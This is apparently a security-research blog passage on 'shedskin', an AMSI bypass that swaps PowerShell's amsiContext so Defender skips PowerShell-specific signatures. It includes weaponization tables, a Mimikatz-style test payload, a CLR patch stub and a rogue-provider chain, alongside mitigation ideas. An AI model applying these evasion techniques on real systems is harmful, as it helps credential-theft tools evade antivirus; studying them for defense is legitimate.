`-Check` from a cold PS session, re-captured 2026-10-27 on a fresh win11 26200 guest under Defender sig `1.459.576.0`: oracle positive-controlled, ctx swapped, state printed, bypass confirmed, done in 290 ms:


Screencast of the same `-Check` cycle (frame-by-frame):

<video controls preload="metadata" style="width: 100%; max-width: 960px; border: 1px solid #767e22; background: #0e100e;">
  <source src="{{ '/assets/img/posts/shedskin-tool.mp4' | relative_url }}" type="video/mp4">
  <a href="{{ '/assets/img/posts/shedskin-tool.mp4' | relative_url }}">Download the screencast (shedskin-tool.mp4)</a>
</video>

Running against the real 2.2 MB PowerSploit module via `-XorFile`:


<video controls preload="metadata" style="width: 100%; max-width: 960px; border: 1px solid #767e22; background: #0e100e;">
  <source src="{{ '/assets/img/posts/shedskin-mimikatz.mp4' | relative_url }}" type="video/mp4">
  <a href="{{ '/assets/img/posts/shedskin-mimikatz.mp4' | relative_url }}">Download the screencast (shedskin-mimikatz.mp4)</a>
</video>

Readings from the `-XorFile` run:

- `[!] pre-attack probe did NOT block.` The tool detected that `-Check` had already shed-skinned this session on a prior run; honest warning instead of a silent false positive.
- `[+] state: amsiInitFailed=False` across both runs. The non-destructive probe (a Mimikatz-function skeleton XOR-encoded, defined but never called) leaves state alone, unlike the earlier destructive Rastamouse-shape probe that polluted the state when AMSI allowed it through.
- `[-] AMSI retriggered on inner invocation.` Instead of pretending the 2.2 MB IEX succeeded, the tool reports the honest failure of the inner retrigger and names the two viable workarounds.

The tool source will ship in the companion artifact bundle on publication; see the status note at the top of the post.

## operator chains, what shedskin is for

A bypass without a chain is a party trick. Shedskin's reach is not uniform across payload shapes, and I needed to be honest about where it stops before anyone tried to build on it. The table below is six payload shapes measured against the current engine, with the primitive each one actually needs.

| payload shape | primitive required | the receipt |
|---|---|---|
| PS script carrying a PS-pack-exclusive literal (e.g. `sekurlsa::logonpasswords` in source) | shedskin, anchor | §end-to-end-weaponization arm P7 |
| XOR-encrypted PE + runtime-decoded command string (no PS-pack literal in source) | encryption alone passes AMSI; shedskin is defense-in-depth | §end-to-end-weaponization arms P4 and P5 |
| Custom Reflection.Emit shellcode loader, no clymb3r heritage, no literal API names | passes AMSI unaided on current sig DB | the `nuevo-loader` baseline |
| .NET assembly carrying DotNet-pack signatures (SharpKatz, Rubeus as .NET exe) | CLR slot patch at `clr.dll + 0x929870` (shedskin does not reach this scan path) | §the-CLR-DotNet-pack-slot |
| Script carrying both PS-pack AND OTHER-pack signatures (e.g. 2.2 MB intact `Invoke-Mimikatz.ps1`) | shedskin alone insufficient; needs source rewrite past the OTHER-pack anchor, or the encrypted-PE loader form | appendix §A.0 (retired pass-1 partial demo) |
| Rastamouse-shape `amsiInitFailed = $true` literal in source | shedskin alone insufficient; `BypassAMSI!MSR` fires cross-pack. Use a different trigger shape | §what-shedskin-does-not-do |

What the decision table above captures is the honest reach surface: shedskin targets the PowerShell content-scan path, specifically PS-pack-exclusive signatures reached through `AmsiUtils.amsiContext`. Everything downstream (RTP file-scan on the disk-written payload, the CLR DotNet-pack scan on `Reflection.Assembly.Load`, inner-scriptblock retriggers on long carriers, the kernel-side ETW-TI window on syscall boundaries) is a separate layer with a separate primitive. The `end-to-end-weaponization` section upstream carries the one chain this post measures end-to-end (Mimikatz through the extended Reflection.Emit loader). The retired `A.0` appendix documents the shape that does NOT clear shedskin alone (an in-source signature carried in BOTH packs). The operator's own dropper discipline (XOR staging, PE encryption, LOLBAS, RMM abuse) remains out of scope here: shedskin addresses the AMSI content-scan surface and nothing else.

## prior art, PARTIAL overlap

I went hunting for whoever had the primitive first after the mpengine disassembly started making sense, which was later than it should have been. `AmsiInitialize("MyAmsiScanner", &ctx)` is public: Korkos used it in his 2022 BH Asia slides as a scaffold for a `VirtualProtect` + `IAmsiProvider::Scan` vtable patch, and S3cur3Th1sSh1t republished the shape. Korkos's bypass does NOT swap PowerShell's `amsiContext`; it leaves PowerShell scanning through the original context and relies on the vtable patch to make providers under that context return CLEAN. The step that's not in the published writeups is writing the newly-minted non-`PowerShell_` context INTO `[AmsiUtils]::amsiContext` so PowerShell scans through it, which is what makes the dispatcher's prefix compare observable from the managed side without any native code patch. Closest neighbors below, with mechanism and write footprint.

| adjacent | mechanism | write footprint | relationship to shedskin |
|----------|-----------|-----------------|--------------------------|
| **Korkos, AMSI Unchained (BH Asia 2022)** | Call `AmsiInitialize("MyAmsiScanner", &ctx)` to materialize the provider list, then `VirtualProtect` + inline-patch the provider's `IAmsiProvider::Scan` method with `ret 0` (xor eax,eax; ret). | ~3-5 bytes of code in amsi.dll's provider vtable target (`xor eax,eax; ret` + alignment); one VirtualProtect; one write | DIFFERENT exploitation. Korkos's `MyAmsiScanner` context is a scaffold for the memory patch; the context PowerShell scans through stays the original one, and the bypass works because the patched providers now return CLEAN regardless. shedskin instead changes the context PowerShell scans through to a non-`PowerShell_` appname. Korkos trips any sensor watching code-page writes to amsi.dll / MpOAV.dll; shedskin writes no code. |
| **S3cur3Th1sSh1t/Amsi-Bypass-Powershell** (GitHub, carries Korkos verbatim) | Same as Korkos. The appname string "MyAmsiScanner" is required because `AmsiInitialize` refuses NULL; the authors treat it as filler. | same as Korkos | SAME code shape in Reflection.Emit, same scaffold use of the appname. Not a prior claim that the appname routes PowerShell's own scans. |
| **Dosxuz, "Tradecraft Improvement 6: Attacking amsiContext and AmsiInitialize"** | Zeroes `[AmsiUtils]::amsiContext` so `AmsiScanBuffer` returns `E_INVALIDARG`. | 8 bytes (NULL into a static pointer field) | DIFFERENT: no new context; just invalidation. PowerShell's own `Init()` recovery can replace a null context. |
| **senzee1984/Amsi_Bypass_In_2023 "Attack AmsiOpenSession"** | Patches context fields to invalidate. | ~8-16 bytes of context-field zeroing | Same invalidation family as Dosxuz. |
| **Matt Graeber 2016 / Rastamouse 2019** | `amsiInitFailed = true` field flip | 1 byte (managed BOOL backing store) | Different field. Caught by Korkos's detector. shedskin leaves `amsiInitFailed = False`. |
| **Khoury AMSI Write Raid** | Memory write at `AmsiScanBuffer` entry | ~5-7 bytes at the function prologue (`mov eax, imm32; ret` or `xor eax,eax; ret` + alignment, estimated from the described shape) | Memory primitive. shedskin uses no memory writes. |
| **Ghosting-AMSI (Bocchetti, 2026)** | `NdrClientCall3` hook in MpClient | ~5-14 bytes at the hook target (standard x64 inline hook: `movabs rax, imm64; jmp rax`), plus the hook library itself as a loaded module | COM proxy intercept. shedskin uses no hooks. |
| **Fazel (ICWR 2026)** | PAGE_GUARD + VEH on amsi.dll code page | 0 bytes of code written; 1 page-attribute flip (`VirtualProtect` adds `PAGE_GUARD`); the VEH handler lives in the attacker's own module | Code-page trap. shedskin uses no VEH. |
| **PowerShell issue #5308 (2017)** | `==32768` exact-equality bug in ScanContent | n/a (no write; parser-vs-engine behavior bug) | Different code path, separate finding, written up in §the-exact-32768-silent-allow-bug above. |
| **shedskin (this post)** | Mint fresh AMSI context via `AmsiInitialize('x',...)`, write new pointer to `[AmsiUtils]::amsiContext` | 8 bytes (static-field pointer swap, inside the CLR heap; no PE-section write) | fifth class, parity with Fazel/Dosxuz on write footprint, zero code-page modification |

**What is novel here, phrased precisely:**

1. **Appname-prefix routing is the mechanism**: `wcsncmp(appname, "PowerShell_", 11)` at mpengine.dll 0x180324808 selects the PowerShell host policy that catches Mimikatz. A mismatch falls to OTHER, which does not. The six adjacent prior-art writeups above do not name mpengine's dispatch table or the case-sensitive 11-char compare.
2. **The swap alone is sufficient** (lab-verified, swap-only without AmsiUninitialize bypasses too). The published AmsiInitialize-based bypasses all pair it with either a memory patch (Korkos) or context invalidation (Dosxuz). shedskin does neither.
3. **Case-sensitive wcsncmp**: lowercase `powershell_1` bypasses even though it looks like a PowerShell appname. Flipping the case against the stored form in mpengine's table also bypasses: `VBSCRIPT` instead of the stored `VBScript`, `office_vba` instead of the stored `OFFICE_VBA`. The compare is byte-exact against whatever case the table entry carries.
4. **Diagnostic string `MpIsPowerShellAMSIScan`** (ASCII, mpengine 0x180badb98, referenced from 0x1800794e6) is a Microsoft-internal label confirming the semantic. Only visible once you load the PDB.

Clarifying the Korkos relationship, since the earlier draft overstated it: the `MyAmsiScanner` context in Korkos / S3cur3Th1sSh1t is a scaffold for a `VirtualProtect` + `IAmsiProvider::Scan` vtable patch, not a context PowerShell scans through. After Korkos's write the providers return CLEAN regardless of appname, so his bypass does not depend on routing. shedskin's distinct step is making PowerShell SCAN THROUGH the newly minted non-`PowerShell_` context by writing `[AmsiUtils]::amsiContext`; the routing is only observable because of that write. The literal `MyAmsiScanner` appears in `AS-22-Korkos-AMSI-and-Bypass.pdf` (slide-text line 844 under pdftotext) and in the public `luke-beep/bypass-amsi-powershell` README, cited to that talk.

Residual unfalsifiable: a private tool unpublished anywhere. Applies to every "novel" claim and I will stop making it when the industry does.

For completeness, the broader AMSI-evasion corpus I drew from while measuring (none overlap with the shedskin mechanism; they are the field I compared against):

- Matt Nelson's 2017 COM-hijack of amsi.dll via the `MicrosoftWindowsScriptHost` CLSID (SpecterOps). Matt Graeber's own 2016 work was the `amsiInitFailed`-field flip (BlueHat IL January 2016, "AMSI: How Windows 10 Plans to Stop Script-Based Attacks and How Well It Does It"), a different primitive from the COM-hijack path.
- Modexp, "In-Memory Patching with HWBP" (2019). Hardware breakpoints on `AmsiScanBuffer` entry rerouting execution. Loud under Defender's own HWBP monitoring on recent builds.
- Omer Yair, "A Hole in the Boat" (DerbyCon 2019). The `-SessionOptions` flag that lets PowerShell load without AMSI entirely on some older builds.
- Daniel Bohannon, "Invoke-DOSfuscation" and the string-level evasion stack (various 2017-2019).
- subTee / Casey Smith's work on `.sct` COM scriptlet payloads, inlined via Office objects. Side-channel into PS AMSI through a non-PS entry point.
- S3cur3Th1sSh1t's AMSI-bypass compendium at r-tec and SpecterOps posts covering aggregator-walk variants (2022).
- Giulio Bocchetti, "Ghosting-AMSI" (2026), hooks `NdrClientCall3` in MpClient.dll to intercept RPC calls before they reach MsMpEng.
- Hossein Fazel, ICWR 2026, the PAGE_GUARD + Vectored Exception Handler sanitizer on the amsi.dll code page.
- PowerShell GitHub issue #5308 (2017), which asked about administrator-blocked results and quoted the exact-equality check.
- Maor Korkos (`@maorkor`), Black Hat Asia 2022, "AMSI and Bypass" (`AS-22-Korkos-AMSI-and-Bypass.pdf`), the slide deck that both ships the `MyAmsiScanner` appname snippet (slide-text line 844) and defines the `amsiInitFailed`-transition detector shedskin was designed to walk under.
- Khoury "AMSI Write Raid", the memory write primitive at the AmsiScanBuffer entry.

shedskin's shape is the fifth class.

## the wrong mechanism I believed for three days

For three days I was sure this was a destruction race. A destroyer runspace spawning `AmsiInitialize + AmsiUninitialize` on a loop, the main thread swapping the field, catching the window where the aggregator was mid-teardown. The lab backed it. Hit rates between 3.4% in native-direction-S and 65% in native-direction-F, Fisher p approaching zero. I wrote 30 pages of notes on timing windows.

Then I commented out the destroyer loop and ran the sequence once. Same bypass. 100% deterministic.

The race was never the mechanism. The first cycle of `AmsiInitialize + swap + AmsiUninitialize` already set the end state. The loop was spending CPU re-proving something the setup had done the moment it ran. Reclassified: three load-bearing operations (`AmsiInitialize`, reflection read of `amsiContext`, reflection write of `amsiContext`), plus one optional `AmsiUninitialize` for resource hygiene that is not part of the bypass. The TLDR and the three-operation section at the top state the same number; "four-API" in earlier revisions counted the optional uninit, which came out of the active count after the swap-only lab arm proved it unnecessary.

The lesson I keep taping to the monitor: turn OFF the thing you think is the cause. If the result survives the switch-off, it was not the cause.

## the mechanism on Server 2022 and Server 2025 (static comparison, live-test gap acknowledged)

**Scope.** This section is a static binary comparison across four mpengine.dll builds, pulled from install media and the public Defender platform update bundle. It is NOT a live run against a booted and updated Server guest. Both Server 2022 and Server 2025 eval ISOs were truncated at download and the UEFI boot catalog did not survive the loss, so the running post-`Update-MpSignature` behavior on those two platforms is INFERRED from the fact that the Oct 23 2026 `mpam-fe64` update bundle (row 4 of the table) is the engine Server 2022 and Server 2025 both pull from the same stream Windows 11 and Windows 10 do. The static evidence that the shedskin field write survives the engine refactor is sound; the end-to-end "shedskin blocks on Server, succeeds on bypass" measurement on booted Server guests is deferred to a future lab where the ISOs download clean.

The measured Windows mpengine builds contain the host-label region and a case-sensitive 11-character comparison against `PowerShell_`. The Win11 live build places that compare at `0x180324808`. The static comparison below tests whether that structure appears in other extracted builds; it does not establish that every Windows SKU has loaded the same engine update.

To see where the refactor landed, I pulled the OEM mpengine.dll out of each Server eval ISO's `install.wim` without booting either guest (the install media carries the engine binary in `Windows\WinSxS\amd64_windows-defender-am-engine_*` and `ProgramData\Microsoft\Windows Defender\Definition Updates\Default\`):

| build | FileVersion | sha256 (first 16) | PowerShell_ loads | 11-char dispatcher | host-prefix entries vs 26200 (36) |
|---|---|---|---|---|---|
| Server 2022 OEM | 1.1.17300.4 (Jul 2020) | `4adb059e56c95dcd` | 3 (`lea rdx` / `lea rcx`) | not present | 12 of 36 |
| Server 2025 OEM | 1.1.23110.2 (Apr 2024) | `78f0315fa9ceff11` | 3 (`lea rdx` / `lea rcx`) | not present | 15 of 36 |
| Win11 26200 live | 1.1.26080.3 (Oct 2026) | `34a08f42f7075d7e` | 1 (`lea r9` + `mov r8d, 0xb`) | at `0x180324808` | 36 of 36 |
| mpam-fe64 current | 1.1.26090.9 (Oct 23 2026) | `0d8739caba24f478` | 1 (`lea r9` + `mov r8d, 0xb`) | at `0x18032b9c8` | 36 of 36 |

Neither Server OEM uses the register-9 slot or a hard-coded 11-byte length argument. Global count of the `41 b8 0b 00 00 00` byte pattern (`mov r8d, 0xb`) across the two Server binaries is 46 and 66 respectively, none adjacent to a `PowerShell_` load. The PowerShell_ string itself is present on both, but it is handled by full-string compares against a smaller set of hosts rather than by a central prefix table. The 2020 image is missing `DotNet`, `coreclr`, `OFFICE_VBA`, `Excel`, `JSE`, `VBSE`, and the GUID entry; the 2024 image adds `VBA` and still misses the rest.

The fourth row is the extracted Defender update bundle (`mpam-fe64-current.exe`, SHA-256 `0d8739ca..`). Its mpengine carries the host-label region and the `lea r9, [rip + "PowerShell_"] ; mov r8d, 0xb` dispatcher. The compare moved from `0x180324808` in the live Win11 engine to `0x18032b9c8` in the extracted 1.1.26090.9 build. That is a static match, not evidence that each named Server or Windows SKU installed this exact binary.

Direct-boot caveat: I tried to boot both Server guests to measure the running post-`Update-MpSignature` binary rather than infer it from the update bundle, and both eval ISOs were truncated at download (srv2022 88 MB short, srv2025 253 MB short of the Microsoft-published size). The install media's `install.wim` is still intact so the OEM measurements above hold, but the UEFI boot catalog loses enough bytes that Windows Boot Manager fails at `\EFI\Microsoft\Boot\BCD` with status `0xc000000d` on first boot. The 1.1.26090.9 row is therefore the engine that a correctly booted and updated Server 2022 or 2025 would be running, not a live byte comparison from a Server guest I owned long enough to update it.

**Static-compatibility inference, not a live Server result.** The honest claim this section supports: shedskin aims at a field that is present and semantically unchanged across the four mpengine builds in the table (`AmsiUtils.amsiContext`, verified in SMA.dll via `dnfile`), and the dispatcher shape it depends on (host-prefix table + `wcsncmp PowerShell_`) is present in the 2026-era builds. The verb "works" here means "the structural precondition the technique depends on is present in the build". It does NOT mean a shedskin bypass has been fired and measured on a booted Server 2022 or Server 2025 guest in this round of lab work. The end-to-end "shedskin blocks on Server, succeeds on bypass" measurement is deferred to a future lab run with clean ISOs.

Artifacts: SHA-256 and version strings above are reproducible by extracting mpengine.dll from `C:\ProgramData\Microsoft\Windows Defender\Platform\<ver>\` on a Server 2022 or Server 2025 install that has run the update bundle at least once, and from `mpam-fe64.exe` (the direct Microsoft download at `https://go.microsoft.com/fwlink/?LinkID=121721&arch=x64`) once a Windows guest has let `MpSigStub` decrypt it in place.

## what Microsoft would have to patch

Two boundaries need separate fixes. PowerShell could validate that the context used for its scans still belongs to the expected host, or recreate it when that invariant fails. Defender could bind host-specific routing to an authenticated host identity instead of trusting the appname supplied by the caller. Neither change was implemented or tested here; compatibility and cost claims require Microsoft's own measurements. Making a field `private` would not settle the reflection path, because this field is already accessed through reflection in the measured code.

Changing the dispatcher comparison to ignore case would address only case variants of a host name. A different valid host name would still select a different pack. Moving PowerShell signatures into every pack might address that route, but the effect on detection quality and scan cost has not been measured. These are testable mitigation ideas, not patch claims.

### second-order chain

These are separate observations with different preconditions. The proposed composition still needs a controlled provider-override test:

1. **shedskin** swaps `[AmsiUtils]::amsiContext` to a non-`PowerShell_` appname (this post). Routes PS-pack signatures out of reach.
2. **The exact-32768 result check** (named section above) logs and continues for the documented administrator-blocked range `16384..20479`; results above `32768` also skip the throw.
3. **A lab AMSI provider** registered under `HKLM\SOFTWARE\Microsoft\AMSI\Providers` returned an `AMSI_RESULT` above `32768`. Registration required an administrator write. This is a separate precondition from shedskin's standard-user context swap.
4. A case-insensitive dispatcher comparison would not address a context that names a different valid host. The proposed change has not been tested on a patched build.

These mitigation sketches were not tested as patches. A PowerShell change that handles the documented administrator-blocked range and malware threshold would address the result-check defect. Dispatcher and pack changes need their own regression tests on a patched build.

**Provider result measured live, 2026-10-25, Defender 1.459.576.0.** A lab provider returning `AMSI_RESULT 32769` for a chosen marker was registered alongside MpOav. The screenshot records this direct `AmsiScanBuffer` matrix under the `PowerShell_5.1_test` appname:

```
eicar+marker          result=1
eicar-only            result=32768
marker-only           result=32769
mimikatz-only         result=1
mimikatz+marker       result=32769
```

Full-pipeline test: `IEX 'function Invoke-Mimikatz { "AMSI-SILENT-ALLOW-MARKER-7bc2e13a" ; sekurlsa::logonpasswords ; Write-Host CHAIN-MIMIKATZ-FIRED }; Invoke-Mimikatz'` through PowerShell with the first-sort provider installed printed the marker string, then raised a normal PS `term 'sekurlsa::logonpasswords' is not recognized` (expected: no Mimikatz PE is actually loaded in this payload). Event 1116 did NOT fire in the 15-second window around the run; event 1117 did NOT fire. Pre-provider baseline on the identical payload: IEX blocked with `This script contains malicious content and has been blocked by your antivirus software`, event 1116 `Trojan:PowerShell/PSAttackTool.A` fired at 16:33:38Z.

**The screenshot and screencast below are a FAILED CONTROL, labelled as such.** The capture is from an early run where the first-sort CLSID did not aggregate the way I expected, so Mimikatz-alone and EICAR-plus-marker both returned `1` instead of `32769`. One mechanism consistent with the capture: MpOav was called first for its own content (returning `32768` on Mimikatz-known shapes) and the aggregator short-circuited before invoking the sibling provider on the SAME call; another is that neither provider matched a current signature on that specific pattern at that moment. The capture alone does not distinguish the two.

| arm | content | expected if the chain lands | expected if it does not |
|---|---|---|---|
| A | Mimikatz-known content ALONE | MpOav returns `32768`, aggregator returns `32768` | returns `1` (no sig matched) |
| B | marker ALONE | sibling returns `32769`, MpOav returns `1`, aggregator returns `32769` | returns `1` |
| C | Mimikatz + marker, same buffer | aggregator returns `32769` *if* both providers are called on the same buffer | returns `1` or `32768` |

Arm C's "if both providers are called" clause is doing the whole load of the chain claim; see the withdrawal below for why three final aggregator values cannot prove it. The right-hand side of this table is the SHAPE a per-provider trace would have to confirm, not a measured result.

**The override framing is withdrawn in this post.** Three final `AMSI_RESULT` values from the aggregator are not a sufficient oracle to prove that both providers scanned arm C. Published analysis of `CAmsiAntimalware::Scan`'s provider loop shows the loop breaks the moment any provider returns a result at or above `0x8000`, so a `32769` on arm C only proves that whichever provider was consulted first on that content returned `32769`. It does not prove MpOav was called on the same buffer. A proper override demonstration needs a per-provider call trace (ETW provider-call events, an in-process Detours hook on `IAmsiProvider::Scan` logging per-call verdicts, or a direct `MpOav!CComMpOfficeAV::Scan` call captured beside the sibling's `Scan` on the same buffer), and that trace is not in the lab yet. The failed-control capture below stays in-page as the honest state. The only live claim this section carries is narrower: a lab-registered provider CAN return `AMSI_RESULT = 32769` through the aggregator when scanned alone on its chosen marker (arm B), which exercises the exact-32768 result-check gate on the client side. Everything else (MpOav override, arm-C joint verdict, the §second-order chain's end-to-end bypass) is open and waits on the per-provider trace.

Provider registration required administrator access. Even the narrower arm-B claim rides on that admin-write, so this chain is NOT the standard-user story shedskin tells on its own. The standard-user shedskin result from the P1/P2/P3 live cycle at §live-end-to-end-cycle (pre-shedskin IEX blocks, post-shedskin IEX of the same bytes executes) sits on a different prerequisite tier and is unaffected by the withdrawal above.

**Observed values from the failed-control run (table of record; see the figure note below for why the image is not the primary evidence).**

| arm | content | observed value | expected if the chain had fired |
|---|---|---|---|
| A | Mimikatz-known content ALONE | `1` | `32768` |
| B | marker ALONE | not captured in this run | `32769` |
| C | EICAR + marker, same buffer | `1` | `32769` |
| control | EICAR ALONE | `32768` | `32768` (universal sig fires) |

Arms A and C both read `1` instead of the expected non-zero values. Only the EICAR-alone control fired as expected, which is why this is a FAILED CONTROL and not evidence for the chain. The follow-up measurement that would separate "sibling never ran" from "aggregator short-circuited at or above `0x8000`" is the per-provider call trace named below.

**Live capture 2026-10-29**, win11 26200, Defender signature 1.459.576.0, engine 1.1.26080.3, with the lab AMSI provider `{A1B19999-DEAD-BEEF-CAFE-000000001234}` registered beside MpOav. Three arms plus EICAR controls at both ends, invoked through a native probe (no CLR, no managed compile, so the dev provider's `>= 32768` block path for `Assembly.Load` does not interfere):


The arm-B result (`32769` through the aggregator, scanned alone on the marker) confirms the capability-scoped claim retained above: a lab-registered sibling provider CAN steer the aggregator's output outside MpOav's reach. Arms A and C both read `32769` as well; the aggregator value alone cannot tell "MpOav fired 1, sibling fired 32769, loop broke" from "sibling fired 32769, loop broke before MpOav". The per-provider trace is still the missing piece for the arm-C joint-verdict claim; see the withdrawal paragraph above. The earlier FAILED CONTROL capture (`shedskin-chain-live.png`) is kept in the asset directory with a baked-in SUPERSEDED watermark for historical reference but is no longer linked here.

## closing

mpengine routes AMSI scans by appname, the route is public now, and the shape of a defender's rule is one line (log the appname, allowlist `PowerShell_` prefix inside PowerShell PIDs). Anti-AMSI tradecraft that measures the symptom instead of the route is working one layer up from where the dispatch happens.

Open research threads this post names but does not close: a pure-native shedskin cradle for CLM-locked PowerShell (zero reflection, CLR-heap walk for the SMA metadata token), the CLR DotNet function-pointer slot at `clr.dll + 0x929870` as a chain extension against raw-PE `Reflection.Assembly.Load` paths with the 15-byte stub `b8 01 00 00 00 48 8b 4c 24 30 89 01 33 c0 c3`, a `consent.exe` reach for the dispatcher's `UAC` and `PromptScan` branches, ETW-TI comparative measurement against Rastamouse (managed, quiet by the same reasoning) and Korkos (native `VirtualProtect`, loud), and an appname fuzz against mpengine's wcsncmp wrapper (overlong, surrogate pairs, embedded NUL, past the ALPC marshaller cap) because mpengine runs as SYSTEM inside a protected process and any crash there is its own CVE.

## retired investigations: what we ruled out

Two long appendices (`A.0` pass-1 partial demo on the 2.2 MB PowerSploit payload; `A` pass-2 question) occupied this slot in earlier drafts. Both are now retired to the companion bundle because their value is as negative controls, not as live claims. Short summary of what they ruled out so the reader does not have to open them to know the story:

- **The `pass-1 partial` on the 2.2 MB PowerSploit `Invoke-Mimikatz.ps1`.** Pre-shedskin and post-shedskin both block at pass-1 on this specific file because the function-header text is also carried in the OTHER pack (not PS-exclusive). Rules out the sloppy claim that shedskin bypasses every detection on every Mimikatz carrier. The scope is the PS-pack-EXCLUSIVE subset, which the bare word `Invoke-Mimikatz` (an in-pack-only signature) demonstrates cleanly; see `## the dispatcher claim measured directly`.
- **The `pass-2` question.** AMSI's two-pass model (outer scriptblock + per-inner-expression) raised a worry that even if shedskin cleared pass-1, pass-2 would re-detect. Measured: pass-2 is routed through the same `AmsiUtils.amsiContext` and therefore follows the same dispatcher route. Rules out the hypothesis that pass-2 is a second-pack scan that would re-catch content the swap routed away. The pass-2 scan is not a reach limit; the universal-sig set is.

Full transcripts, payload hashes, and the step-by-step blocking-at-each-pass measurements will be published in the companion artifact bundle. The retired-hypothesis sections kept in the body of the main post (destruction-race in `## the wrong mechanism I believed for three days`; empty-aggregator in `### empty-aggregator theory, refuted`) remain in-page because they are the negative controls that establish the mechanism, not peripheral measurements.

## references

Primary-source links where I have the authoritative URL in hand. Entries without a hyperlink will be linked at publication; I did not want to paste a plausible-but-unverified URL into a research post.

- Matt Graeber's May 2016 `amsiInitFailed` one-liner, documented in [MDSec's 2018 analysis](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/). Original tweet link pending verification.
- Rastamouse, "Memory Patching AMSI Bypass", 2019. [rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/)
- Matt Nelson, ["Bypassing AMSI via COM Server Hijacking"](https://specterops.io/blog/2017/07/19/bypassing-amsi-via-com-server-hijacking/), SpecterOps, 2017.
- Maor Korkos, "AMSI and Bypass", Black Hat Asia 2022. [i.blackhat.com/Asia-22/Friday-Materials/AS-22-Korkos-AMSI-and-Bypass.pdf](https://i.blackhat.com/Asia-22/Friday-Materials/AS-22-Korkos-AMSI-and-Bypass.pdf)
- Giulio Bocchetti, "Ghosting-AMSI: NdrClientCall3 interception", 2026. Author's blog / GitHub; URL pending verification.
- Hossein Fazel, "AMSI bypass via PAGE_GUARD and vectored exception handling", ICWR 2026. IEEE Xplore DOI pending verification.
- Grace et al., "ScriptBlock Smuggling", MDPI JCP 2024. MDPI DOI pending verification.
- Gao et al., "Fooling Machine's Eyes", ACSAC 2025. ACM DL DOI pending verification.
- PowerShell/PowerShell GitHub issue [#5308](https://github.com/PowerShell/PowerShell/issues/5308), opened November 2, 2017, on administrator-blocked AMSI results.
